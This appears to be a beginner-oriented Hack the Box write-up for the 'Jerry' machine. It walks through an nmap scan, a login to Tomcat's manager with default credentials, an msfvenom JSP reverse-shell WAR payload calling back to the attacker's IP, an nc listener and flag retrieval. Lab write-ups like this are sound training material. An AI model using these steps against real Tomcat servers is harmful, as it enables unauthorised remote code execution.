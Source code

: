 ```yaml
---
title: "Walkthrough of Jerry Machine – Hack the Box"
description: ""
date: 2020-08-23T23:56:29-07:00
lastmod: 2020-08-23T23:56:29-07:00
cover: ""
coverAlt: ""
toc: false
tags: ["HacktheBox",
    	"Walkthrough",
]
draft: false
---
```

<style>
	main {
    margin: 90px auto;
    padding: 0 15px;
    max-width: 70%;
	}
</style>

1. In a new terminal window, run `nmap -sC -sV 10.10.10.95` 
<br><div style="padding-left: 2em;">[ ] `-sC`: Adds on the "default" scripts to be run which include things like "Speed", "usefulness", and "Intrusiveness". You can check them out in more detail by looking under *"default"* in the **Script Categories** section on [this website](https://nmap.org/book/nse-usage.html)
<br>[ ]`-sV`: Probe open ports to determine service/version info
![image](https://user-images.githubusercontent.com/44144070/90194000-0d2d2600-dd7b-11ea-95bb-7876faf2f160.png)
2. It looks like we only have one open port (8080) and it's running a service called **Apache Tomcat/Coyote JSP engine 1.1**
3. If we do a little research we find out a few things:
<br><div style="padding-left: 2em;">[ ]**Apache Tomcat** is [a "pure Java" HTTP web server environment in which Java code can run](https://en.wikipedia.org/wiki/Apache_Tomcat)
<br>[ ]**Coyote** [is a Connector component for Tomcat that supports the HTTP 1.1 protocol as a web server](https://en.wikipedia.org/wiki/Apache_Tomcat#Coyote)
3. Being that **Apache Tomcat** (or **Tomcat** for short) provides a web-server environment, we can actually go to the website and see it.
4. Let's check it out by going to *http://10.10.10.95:8080*
<br><div style="padding-left: 2em;">[ ]This URL works because we know from the portscan that **Tomcat** is an http service, so we add the *"http://"* at the beginning followed by the HTB IP address, and then the *":8080"* allows us to specify the port number. All of this works together to say we want to go to the IP address *10.10.10.95* via an *http* connection at port *8080*
1. Once we get there we can see a few things:
![image](https://user-images.githubusercontent.com/44144070/90194129-6301ce00-dd7b-11ea-9ced-6de716eaae9f.png)
1. If we explore around, most of the clickable options redirect us to help pages for how to use **Tomcat**, with the exception of the *Server Status*, *Manager App*, and *Host Manager*. If we click on any of those three we get this pop-up:
![](https://user-images.githubusercontent.com/44144070/90194521-5d58b800-dd7c-11ea-83e6-e5d31cadc18c.png)
1. So it's asking us for credentials that we don't know. Before trying to set up any complicated password breaking attacks, I find it a good idea to try at least a few of the basics. Some of these include *admin:admin*, *admin:password*, *admin:pass*, etc, (where *admin* stands for *administrator* in the hopes that with these credentials we can log into the account with the most privileges
2. If we try *admin:admin* on the *Server Status* feature it works! And we end up looking at a page like this:
![](https://user-images.githubusercontent.com/44144070/90194585-7e210d80-dd7c-11ea-841d-bdb63ee97243.png)
1. This page has a bunch of information about **Tomcat** and this particular server it's running on. Unfortunately, aside from telling us a little bit more about the server, it doesn't help us get any closer finding a vulnerability
2. Lets go back and try a different option to see if we can find something more useful. If we go back to the main page and click on *Manager App* however, we get this 403 error message (you may have also gotten a similar 401 error message earlier if you had clicked *Cancel* or exited out of the username password prompt):
<br><div style="padding-left: 2em;">[ ]The 401 error is a result of the website thinking we are attempting to access a page without giving credentials when we exit out of the login pop-up, and the 403 error is when we are logged in with credentials, but then try and access a page that we don't have privileges to
![](https://user-images.githubusercontent.com/44144070/90194659-985aeb80-dd7c-11ea-9e8a-7baee5498d7c.png)
1. This error message is very interesting though, if we read it, we find that it gives us instructions on how to set up a manager account, with example credentials *tomcat:s3cret*. Now what often happens is that people will follow these instructions exactly (same way you might go about changing a password for a website), however, if the service doesn't check for (or the user doesn't remember to change) the example credentials, then we may be able to use them to sign into our administrator account
1. To be able to try this new idea though, we first need to be able to get our pop-up back to retry our credentials, and as you probably noticed, **Tomcat** will only show us error messages instead. To fix this, we need to go to *Preferences* -> *Privacy & Security* -> *History* and clear our history (there should be options as to how far back you want to erase your history if you don't want to delete everything):
![](https://user-images.githubusercontent.com/44144070/90194719-bd4f5e80-dd7c-11ea-8481-5a6832331cfd.png)
<br><div style="padding-left: 2em;">[ ]The reason this works, is because every time we attempt to log in, the website takes our credentials, encodes them, and puts them in what's called a "header". This header is read by the website and if it matches the proper credentials, then it will allow us to access the content. If it doesn't match, then the website will react with an error message. Most browsers save our most recent credentials or headers on websites, so by clearing our history, we can clear them which allows us to try again.
4. Once we've done that, we can go back, click on *Manager App* and our pop-up is back!
5. If we try *tomcat:s3cret* it works and we get this page:
![](https://user-images.githubusercontent.com/44144070/90194758-d35d1f00-dd7c-11ea-808c-aef11f8837b5.png)
6. If we explore around a little we'll find a section called *"WAR file to deploy"*, and this is what we're going to want to look at, because chances are if we have the ability to upload something, we can make that something do what we want
![](https://user-images.githubusercontent.com/44144070/90194805-ecfe6680-dd7c-11ea-8743-f0b840a6c14c.png)
<br><div style="padding-left: 2em;">[ ]So what even is a WAR file?
<br><div style="padding-left: 2em;">[ ]A WAR (Web Application Resource) file is like a ZIP file in the sense that it is actually a collection of other files compressed together. However unlike ZIP files, WAR files are comprised solely of [JAR](https://en.wikipedia.org/wiki/JAR_(file_format)) files meant to hold resources to create a website
9. Now before we start trying to write our own WAR file, lets check if we have any tools that might have something already written
10. One way we can check is by using a program called **MsfVenom**, a payload generator for **Metasploit**
11. Since we know WAR files are a collection of JSP/Java files, lets see what payload options  **MsfVenom** has with `msfvenom -l payloads | grep java`
<br><div style="padding-left: 2em;">[ ]The `msfvenom -l payloads` will list all of the payloads **MsfVenom** can produce, but since there are so many we'll want to reduce our results by pipelining the results through `grep java` which filters all the results and shows us only the ones with the word "java" in it
![](https://user-images.githubusercontent.com/44144070/90194897-1ae3ab00-dd7d-11ea-8596-af7405e332d4.png)
12. Taking a look at these results, we can narrow it down by figuring out what else we want, JSP (because it's a WAR file), a reverse shell (check out the first bit of [this article](https://medium.com/@PenTest_duck/bind-vs-reverse-vs-encrypted-shells-what-should-you-use-6ead1d947aa9) to understand why), and a tcp connection (as we determined from our portscan). This leaves us with the *"java/jsp_shell_reverse_tcp"* option
13. To create our WAR file to upload to **Tomcat**, we'll run `msfvenom -p java/jsp_shell_reverse_tcp LHOST=yourHtbIp LPORT=openPort -f war > aName.war`. Now that's a big command with a lot of fill-in-the-blanks so let's break it down:
<br><div style="padding-left: 2em;">[ ]`msfvenom`: We are using **MsfVenom** to create our program and this calls it
<br>[ ]`-p java/jsp_shell_reverse_tcp`: This indicates that we want to create a <ins>**p**</ins>ayload in *java* that will create a *JSP Reverse Shell* using a *TCP* connection
<br>[ ]`LHOST=yourHtbIp`: Setting the local host by replacing "yourHtbIp" with your Hack the Box IP (can be found in the **Access** tab when signed into your HTB account)
<br>[ ]`LPORT=openPort`: Setting the port to be used for the reverse shell connection
<br>[ ]`-f war`: Setting the <ins>**f**</ins>ormat of the payload to be a WAR file
<br>[ ]`> aName.war`: Replace "aName" with whatever you want to name your payload file
1. You'll want to run your version of the command, and after a few moments you'll get a message saying the size of the file, and if we type `ls` we can see our file!
![](https://user-images.githubusercontent.com/44144070/90195123-8d548b00-dd7d-11ea-8e9f-ab9c211396e3.png)
11. So let's go ahead and upload our WAR file to **Tomcat** by clicking *"Browse"* in the *"WAR file to deploy"* section, and once we see our file in there, click *"Deploy"*
![](https://user-images.githubusercontent.com/44144070/90195193-ad844a00-dd7d-11ea-8818-d64676277795.png)
1. If you did it right, you should see your file sorted in alphabetically with the other preexisting files:
![](https://user-images.githubusercontent.com/44144070/90195220-bbd26600-dd7d-11ea-9d35-9c0a13684bc1.png)
2. Before we do anything with it though, since we learned a Reverse Shell relies on a "listener" running on our device for our victim to connect to with a shell, we need to set up a listener with `nc -lvnp yourLPORT`
<br>[ ]`-lvnp` is short for `-l -v -n -p` and specifies four things:
<br><div style="padding-left: 2em;">[ ]`-l`: Listen for incoming traffic
<br>[ ]`-v`: Be verbose (give details of what is going on in the process)
<br>[ ]`-n`: No DNS lookups are required (it saves time and makes the command simpler)
<br>[ ]`-p`: Specifies a specific port to be listening on (which is why you need to put an open port after to be listening on)
12. Once we do that, we should get this response showing that our "listener" is ready
![](https://user-images.githubusercontent.com/44144070/90195262-d86e9e00-dd7d-11ea-8a05-c4e79114cbe1.png)
13. Let's go ahead and activate our WAR file by clicking on it in **Tomcat**, and if we check our listener, we have a shell!
![](https://user-images.githubusercontent.com/44144070/90195317-f50ad600-dd7d-11ea-89fa-bb44e930cd29.png)
1. Since we're in a new shell, we'll want to check out the *help* page to see what the commands are by running `help`
![](https://user-images.githubusercontent.com/44144070/90195340-0522b580-dd7e-11ea-935d-8235bb2c27dc.png)
14. We can see all of the commands and what they do in this shell, the main ones that concern us will be that the command `dir` replaces `ls` and `cat` is replaced with `type`
15. If we navigate around using these commands, we'll find a file in *Users/Administrator/Desktop/flags* called *"2 for the price of 1.txt"*
![](https://user-images.githubusercontent.com/44144070/90195404-25eb0b00-dd7e-11ea-9184-ac1fbf931ffc.png)
16. If we run `type "2 for the price of 1.txt"`, then we can see our user and root hashes and enter them to get our points!


## Resources
- [Official Jerry Writeup from Hack the Box](https://www.hackthebox.eu/home/machines/writeup/144)
- [Jerry Video Tutorial from IppSec](https://youtu.be/PJeBIey8gc4)
- [Jerry Write-Up by 0xRick](https://0xrick.github.io/hack-the-box/jerry/)
- [`nmap` Command Help](https://nmap.org/book/man-briefoptions.html)
- [Information on Apache Tomcat](https://en.wikipedia.org/wiki/Apache_Tomcat)
- [Information on NetCat Commands](https://www.varonis.com/blog/netcat-commands/)
- [Information on WAR files](https://en.wikipedia.org/wiki/WAR_(file_format))


###### <font size="1">78 97 39 77 104 111 105 39 67 104 98 32 116 39 111 98 102 99 39 116 119 107 110 115 116 39 104 119 98 105 39 102 105 99 39 102 39 82 65 72 39 116 111 104 114 107 99 39 97 107 126 39 104 114 115 43 39 78 39 112 102 105 115 39 126 104 114 39 115 104 39 111 102 113 98 39 98 127 119 98 100 115 98 99 39 110 115</font>